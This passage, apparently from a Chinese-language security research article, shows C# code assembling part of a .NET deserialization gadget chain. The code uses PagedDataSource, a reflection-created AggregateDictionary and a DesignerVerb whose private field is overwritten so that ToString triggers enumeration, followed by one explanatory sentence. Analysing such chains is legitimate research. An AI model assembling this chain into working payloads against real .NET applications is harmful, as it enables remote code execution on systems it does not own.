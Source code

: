 ```plain
// PagedDataSource maps an arbitrary IEnumerable to an ICollection
PagedDataSource pds = new PagedDataSource() { DataSource = e3 };
// AggregateDictionary maps an arbitrary ICollection to an IDictionary 
// Class is internal so need to use reflection.
IDictionary dict = (IDictionary)Activator.CreateInstance(typeof(int).Assembly.GetType("System.Runtime.Remoting.Channels.AggregateDictionary"), pds);

// DesignerVerb queries a value from an IDictionary when its ToString is called. This results in the linq enumerator being walked.
DesignerVerb verb = new DesignerVerb("XYZ", null);
// Need to insert IDictionary using reflection.
typeof(MenuCommand).GetField("properties", BindingFlags.NonPublic | BindingFlags.Instance).SetValue(verb, dict);
```

第一步，使用`PagedDataSource`类将`IEnumerable`类型转换为`ICollection`类型，该类实现`ICollection`，dataSource类型是`IEnumerable`

[![](assets/1701606703-63203072225bde16c1772e65a78c0f8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108202601-faa962a4-7e31-1.png)
